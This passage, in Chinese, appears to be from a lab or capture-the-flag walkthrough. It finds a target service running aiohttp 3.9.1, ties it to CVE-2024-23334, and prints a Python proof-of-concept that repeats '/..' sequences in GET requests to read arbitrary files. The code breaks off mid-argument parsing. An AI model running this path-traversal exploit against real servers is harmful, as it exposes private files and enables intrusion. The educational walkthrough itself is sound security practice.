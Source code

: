 看到了一个正在执行的py文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWHsZic2Aj95wdFlRQibHp45kwmWYlHMMf1uO1JCpBFaQQTauPtaBRgHHKoF2YwgABZ9cvSRhAf67Bxw/640?wx_fmt=png&from=appmsg "")  
  
image-20241125134035157  
  
尝试访问，提示权限不足  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWHsZic2Aj95wdFlRQibHp45kwHzIDPwhnktnnUFRpTShb7oPGleWmlmOPPVQ0dwqKT5eSlqNaxMoLKQ/640?wx_fmt=png&from=appmsg "")  
  
image-20241125134312151  
  
查看靶机网络连接  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWHsZic2Aj95wdFlRQibHp45kwNsc1e5b0ghl7X0ckDXWPORUKyVfvMWRVSX7ONljb2GibgDFro78XSoQ/640?wx_fmt=png&from=appmsg "")  
  
image-20241125134404083  
  
使用curl查看响应  
```
curl -I 127.0.0.1:8080

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWHsZic2Aj95wdFlRQibHp45kwIvSrbVGPkmgbp1SLjWicvia4iamjsib07pwqzDYsicaU5TNcfSbsbFd567g/640?wx_fmt=png&from=appmsg "")  
  
image-20241125135437386  
  
可以看到 aiohttp 3.9.1版本的漏洞信息，CVE-2024-23334  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWHsZic2Aj95wdFlRQibHp45kwaxic6oDUYCYE7RODrPB6TMCafiaicHqedeekfxo2so3YXOpZtuSeAxRxQ/640?wx_fmt=png&from=appmsg "")  
  
image-20241125135701183  
  
下载poc，查看其代码  
```
import argparse
import http.client
import textwrap
import urllib
 
 
def exploit(url, file, dir):
    parsed_url = urllib.parse.urlparse(url)
    conn = http.client.HTTPConnection(parsed_url.netloc)
 
    traversal  = "/.."
    payload = dir
    for i in range(15):
        payload += traversal
 
        print(f'''[+] Attempt {i}                    Payload: {payload}{file}        ''')
 
        conn.request("GET", f"{parsed_url.path}{payload}{file}")
        res = conn.getresponse()
        result = res.read()
        print(f"                    Status code: {res.status}")
 
        if res.status == 200:
            print("Respose: ")
            print(result.decode())
            break
 
 
 
if __name__ == "__main__":
    parser = argparse.ArgumentParser(
        description="PoC for CVE-2024-23334. LFI/Path-Traversal Vulnerability in Aiohttp",
```